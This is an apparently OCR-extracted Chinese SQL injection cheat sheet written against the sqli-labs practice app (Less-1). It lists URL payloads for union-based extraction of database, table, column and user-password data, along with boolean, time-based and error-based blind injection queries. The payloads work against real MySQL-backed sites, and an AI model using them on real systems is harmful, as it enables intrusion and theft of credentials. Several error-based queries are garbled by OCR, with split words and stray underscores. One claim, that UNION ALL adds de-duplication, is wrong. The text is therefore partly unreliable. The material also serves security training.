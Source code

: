 ### Union联合注入

union 的作用是将两个 sql 语句进行联合。强调一点：union 前后的两个 sql 语句的选择列数要相同才可以。U nion all 与 union 的区别是增加了去重的功能。

http://127.0.0.1/sqllib/Less-1/?id=-1’union select 1,2,3–+ 当 id 的数据在[数据库](https://cloud.tencent.com/solution/database?from_column=20065&from=20065)中不存在时，（此时我们可以 id=-1，两个 sql 语句进行联合操作时， 当前一个语句选择的内容为空，我们这里就将后面的语句的内容显示出来）此处前台页面返 回了我们构造的 union 的数据

### 爆数据库

http://127.0.0.1/sqllib/Less-1/?id=-1%27union%20select%201,group_concat(schema_name),3% 20from%20information_schema.schemata–+

### 爆表

http://127.0.0.1/sqllib/Less-1/?id=-1%27union%20select%201,group_concat(table_name),3%20f rom%20information_schema.tables%20where%20table_schema=%27security%27–+

### 爆字段

http://127.0.0.1/sqllib/Less-1/?id=-1%27union%20select%201,group_concat(column_name),3%2 0from%20information_schema.columns%20where%20table_name=%27users%27–+

### 爆数据

http://127.0.0.1/sqllib/Less-1/?id=-1%27union%20select%201,username,password%20from%20 users%20where%20id=2–+

### sql盲注

1、基于布尔 SQL 盲注

正则注入 select * from users where id=1 and 1=(if((user() regexp ‘^r’),1,0)); select * from users where id=1 and 1=(user() regexp’^ri’); select * from users where id=1 and 1=(select 1 from information_schema.tables where table_schema=‘security’ and table_name regexp ‘^us[a-z]’ limit 0,1);

like匹配注入 select user() like ‘ro%’

2、基于时间的 SQL 盲注 If(ascii(substr(database(),1,1))>115,0,sleep(5))%23

UNION SELECT IF(SUBSTRING(current,1,1)=CHAR(119),BENCHMARK(5000000,ENCODE(‘M SG’,’by 5 seconds’)),null) FROM (select database() as current) as tb1;

3、基于报错的 SQL 盲注 Select 1,count(*),concat(0x3a,0x3a,(select user()),0x3a,0x3a,floor(rand(0)_2)) a from information_schema.columns group by a;_ _简化后：_ _select count(_) from information_schema.tables group by concat(version(), floor(rand(0)*2))

如果关键的表被禁用了，可以使用这种形式 select count(*) from (select 1 union select null union select !1) group by concat(version(),floor(rand(0)*2))

如果 rand 被禁用了可以使用用户变量来报错 select min(@a:=1) from information_schema.tables group by concat(passwo rd,@a:=(@a+1)%2)

select exp(~(select * FROM(SELECT USER())a)) //double 数值类 型超出范围

select !(select * from (select user())x) -（ps:这是减号） ~0 //bigint 超出范围；~0 是对 0 逐位取反，很大的版本在 5.5.5 及其以上

